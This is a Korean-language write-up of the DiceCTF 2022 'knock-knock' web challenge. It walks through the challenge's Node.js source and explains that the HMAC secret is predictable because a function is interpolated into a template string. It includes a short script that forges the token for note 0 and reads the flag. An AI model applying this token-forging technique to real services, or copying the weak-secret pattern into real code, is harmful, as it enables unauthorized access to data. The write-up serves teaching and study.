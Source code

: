 # DiceCTF 2022 WriteUp 
**CTF start Date: 2022-02-04 (2 day)**
***
- **[WEB] knock-knock (356 solves/107 points)**
- **[WEB] no-cookies (5 solves/415 points)**
- 

## [WEB] knock-knock 
Knock knock? Who's there? Another pastebin!!

URL: https://knock-knock.mc.ax/

(356 solves/107 points)

#### Analyse
문제에서 제공된 사이트에서 글쓰기, 읽기 기능을 확인할 수 있었다.
또한 문제 사이트의 소스코드가 제공이 되어 각각의 기능들을 파악하기 수월했다.

```
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}
const db = new Database();
db.createNote({ data: process.env.FLAG });
```

위 소스코드는 글쓰기, 읽기를 위해 작성된 코드이며 글을 생성하기 위한 **createNote** 함수에선 글이 몇번째 글인지 확인하는 **id** 값과 id 값으로 생성되는 **token**을 만들고, 글을 읽기 위한 **getNote** 함수에선 id, token값을 받아 id값으로 token을 생성하고 전달받은 token값과 비교해 일치하면 사용자에게 id에 해당하는 글을 전달하는 것을 알 수 있다.

token을 생성하는 함수는 **generateToken** 함수이며 **this.secret** 값을 암호화 키로 id값을 sha256 HMAC으로 변환해 token을 생성한다.

**this.secret** 값은 \`secret-${crypto.randomUUID}\`와 같이 template string으로 되어 있었다.

**flag**는 서비스가 시작될 때 글로 생성되어 지는걸 확인 할 수 있었다. 
flag가 포함된 글의 id값은 createNote 함수의 `const id = this.notes.length;` 코드로 생성되기에 0의 값을 가지는걸 알 수 있다.

#### Find out the secret value
this.secret 값을 파악하기 위해 this.secret에 사용된 crypto.randomUUID 값을 보았다.
```
> crypto.randomUUID
[Function: randomUUID]

> crypto.randomUUID.toString()
'function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
```
예상과는 다르게 crypto.randomUUID는 string type이 아닌 function type을 가지고 있었고 toString의 결과값은 함수의 내용을 출력하고 있었다.
따라서 \`secret-${crypto.randomUUID}\` 값은 random한 UUID값이 아닌 유추가능하고 일정한 값임을 알 수 있었다.
```
> `secret-${crypto.randomUUID}`
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = { ...options };\n' +
```

#### Generate flag token and read flag

서버와 동일한 버전의 nodejs에서 사용해야 한다.
```
const request = require('request');
const crypto = require('crypto');
uri = "https://knock-knock.mc.ax/"
secret = `secret-${crypto.randomUUID}`;
token = crypto.createHmac('sha256', secret).update('0').digest('hex');
uri += `note?id=0&token=${token}`
const options = {
        uri,
};
request.get(options, function (error, response, body) {
        console.log(body);
});
```
